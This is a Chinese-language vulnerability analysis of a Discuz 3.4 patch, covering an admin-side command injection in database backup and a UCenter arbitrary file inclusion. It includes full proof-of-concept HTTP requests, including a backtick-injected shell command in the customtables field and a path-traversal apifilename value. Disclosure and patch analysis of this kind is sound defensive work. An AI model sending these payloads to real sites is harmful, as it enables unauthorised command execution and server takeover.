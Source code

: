 # discuz3.4补丁更新分析

* 5月29日discuz3.4源码提交了一次更新[https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14](https://gitee.com/ComsenzDiscuz/DiscuzX/commit/f759f176c45c08be5141a677123c167f4a1b3e14)，其中修复了一个后台任意文件包含漏洞和一个后台命令执行隐患。
下面从代码分析漏洞：

1.后台命令执行隐患(不具备利用条件)
----
![](20180612-discuz3.4补丁更新分析/pic/命令执行1.jpg)
如图所示，问题出在后台数据库备份功能，增加了escapeshellarg()函数来过滤 $tablesstr参数。
/discuz3.4/upload/source/admincp/admincp_db.php
```php
if($operation == 'export') {

    $_SERVER['REQUEST_METHOD'] = 'POST';
    if(!submitcheck('exportsubmit')) {

        #省略

    }
    else {

        DB::query('SET SQL_QUOTE_SHOW_CREATE=0', 'SILENT');

        if(!$_GET['filename'] || !preg_match('/^[\w\_]+$/', $_GET['filename'])) {
            cpmsg('database_export_filename_invalid', '', 'error');
        }

        $time = dgmdate(TIMESTAMP);
        if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') {
            $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
        } elseif($_GET['type'] == 'custom') {
            $tables = array();
            if(empty($_GET['setup'])) {
                $tables = C::t('common_setting')->fetch('custombackup', true);
            } else {
                C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
                $tables = & $_GET['customtables'];####输入可控点
            }
            if( !is_array($tables) || empty($tables)) {
                cpmsg('database_export_custom_invalid', '', 'error');
            }
        }

        #省略

        if($_GET['method'] == 'multivol') {
            #省略
        }
        else {
            $tablesstr = '';
            foreach($tables as $table) {
                $tablesstr .= '"'.$table.'" ';
            }

            require DISCUZ_ROOT . './config/config_global.php';
            list($dbhost, $dbport) = explode(':', $dbhost);
            $query = DB::query("SHOW VARIABLES LIKE 'basedir'");
            list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);

            $dumpfile = addslashes(dirname(dirname(__FILE__))).'/'.$backupfilename.'.sql';
            @unlink($dumpfile);

            $mysqlbin = $mysql_base == '/' ? '' : addslashes($mysql_base).'bin/';

            @shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile);
```
$_GET['customtables'] >> $tables >> $tablesstr 
参数没有经过过滤、转义直接拼接到shell_exec中可被利用命令执行
利用构造POC：
```
POST /discuz3.4/upload/admin.php?action=db&operation=export&setup=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz-3.4/upload/admin.php?action=db&operation=export
Content-Type: application/x-www-form-urlencoded
Content-Length: 201
Cookie:  略
Connection: close
Upgrade-Insecure-Requests: 1

formhash=40d81b28&scrolltop=&anchor=&type=custom&customtables%5B%5D=`touch /tmp/1.txt`&method=test&sizelimit=2048&extendins=0&sqlcompat=&usehex=1&usezip=0&filename=180608_gJjGo26K&exportsubmit=%E6%8F%90%E4%BA%A4
```
几个注意点：
/discuz3.4/upload/source/class/discuz/discuz_application.php 248
```php 
if($_SERVER['REQUEST_METHOD'] == 'POST' && !empty($_POST)) {
    $_GET = array_merge($_GET, $_POST);#合并键值，用post覆盖get
}
```
* $_GET包含了$_POST的值
* method不能为multivol

然而上面的命令并不能执行成功，当时我有点无语，因为下面的代码有问题，这块功能代码居然是不能用的。
```php
list(, $mysql_base) = DB::fetch($query, DB::$drivertype == 'mysqli' ? MYSQLI_NUM : MYSQL_NUM);
#DB::$drivertype不存在,根据代码意思应该是$db->drivertype或者DB::$db->drivertype
```
漏洞代码运行到这里的时候会运行不下去，因为DB::$drivertype这个参数根本没定义。
在/discuz3.4/upload/source/class/discuz/discuz_database.php里class discuz_database {} 不存在$drivertype。
为了复现漏洞，我在/discuz3.4/upload/source/class/discuz/discuz_database.php 添加了public static $drivertype;，然后再使用上面的POC成功执行了命令。

2.后台任意文件包含漏洞(ucenter应用管理权限)
----
漏洞存在多处，但是原因都是一样的，就是$apifilename参数未做过滤或转义导致任意文件包含，我选择其中一处分析。
/discuz3.4/upload/uc_server/model/note.php
```php
$apifilename = isset($app['apifilename']) && $app['apifilename'] ? $app['apifilename'] : 'uc.php';
        if($app['extra']['apppath'] &&  @include_once $app['extra']['apppath'].'./api/'.$apifilename) {
```
分析下$apifilename的值从哪里来

/discuz3.4/upload/uc_server/data/cache/apps.php >> /discuz3.4/upload/uc_server/model/base.php init_cache() >> $this->base->cache('apps') >> $app['apifilename']

apps.php的值如下图所示
![](20180612-discuz3.4补丁更新分析/pic/apps.php.jpg)
可通过ucenter的应用管理进行控制
![](20180612-discuz3.4补丁更新分析/pic/Jietu20180612-192102.jpg)
POC：
```php
POST /discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.130 Safari/537.36 T+Browser/2.3.3.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://localhost/discuz3.4/upload/uc_server/admin.php?m=app&a=detail&appid=1&sid=bdb72eMi%2BnWQ0q9oCK46R%2BA80gB%2BQ4ZRCIiuPWiNu2FCVNQbKb%2F2FtI4XRDYgsU9VvGBY07LF2exdg
Content-Type: application/x-www-form-urlencoded
Content-Length: 405
Cookie: 略
Connection: close
Upgrade-Insecure-Requests: 1

sid=87c1Zk21dOZPwMBkwqz%2BmgKKVA%2FrhGZKGqu1CWAP63EzBMLJWaCtv9K1DPs%2B61zf7vEER6usLasOpQ&formhash=c98254e0423cf9af&type=DISCUZX&name=Discuz%21+Board&url=http%3A%2F%2Flocalhost%2Fdiscuz-3.4%2Fupload&extraurl=&ip=&authkey=SfU517M8n8u1scR1T255Gea6G909L2l338E6seAdP7xei3U0yag9J3gfm6iey66b&apppath=..%2F&viewprourl=&apifilename=../phpinfo.txt&tagtemplates=&tagfields=&synlogin=1&recvnote=1&submit=+%E6%8F%90+%E4%BA%A4+
```
* apppath=..%2F 因为不知道绝对路径，输入../会自动补全
![](20180612-discuz3.4补丁更新分析/pic/绝对路径.jpg)
* apifilename= 可以是任意上传的图片等填入相对路径,这里phpinfo.txt是我创建在web根目录的测试文件

POC的包发完以后，访问登陆页面、ucenter首页等多处都包含了指定的文件，达到getshell的目的。
![](20180612-discuz3.4补丁更新分析/pic/Jietu20180612-191327.jpg)

